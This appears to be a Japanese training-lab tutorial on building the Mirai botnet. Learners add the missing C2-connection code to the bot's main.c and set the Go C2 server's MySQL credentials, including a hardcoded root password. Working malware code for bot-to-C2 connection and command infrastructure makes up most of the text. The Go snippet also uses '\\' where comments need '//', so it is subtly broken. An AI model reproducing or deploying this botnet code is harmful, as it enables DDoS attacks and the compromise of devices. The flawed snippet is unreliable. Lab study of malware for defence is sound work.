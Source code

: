赤枠で囲んでいるmalwareディレクトリにMiraiのソースコードが保存されています．

![](img/06.png)

## プログラム作成（事前準備）
まずは，マルウェアとC2 Serverのメインプログラムを作成してもらいます．

マルウェアのメインプログラムは，
`/home/ubuntu/enviroment/malware/mirai/bot/main.c`
となっており，C言語で記述されています．

マルウェアに感染したBotはC2 Serverとの接続が必要ですが，その部分のプログラムが抜けているため，作成してもらいます．  
establish_connectionメソッドの最後に，以下のコードを追加してください．
```
    // C2 Serverへの接続確認
    if (resolve_func != NULL)
        resolve_func();

    //C2 Serverへ接続
    pending_connection = TRUE;
    connect(fd_serv, (struct sockaddr *)&srv_addr, sizeof (struct sockaddr_in));
```

C2 Serverのメインプログラムは，
`/home/ubuntu/enviroment/malware/mirai/cnc/main.go`
となっており，Go言語で記述されています．  
C2 Serverは，Go言語とMySQLを組み合わせて構築していきます．  
今回のプログラム作成では，データベースのIPアドレス，ユーザ名，パスワード，使用するテーブルを設定してもらいます．  
10行目以降に，以下のコードを入力してください．
```
const DatabaseAddr string = "127.0.0.1:3306" \\IPアドレス
const DatabaseUser string = "root" \\ユーザ名
const DatabasePass string = "Admin123!" \\パスワード
const DatabaseTable string = "mirai" \\テーブル名

var clientList *ClientList = NewClientList()
var database *Database = NewDatabase(DatabaseAddr, DatabaseUser, DatabasePass, DatabaseTable)
```
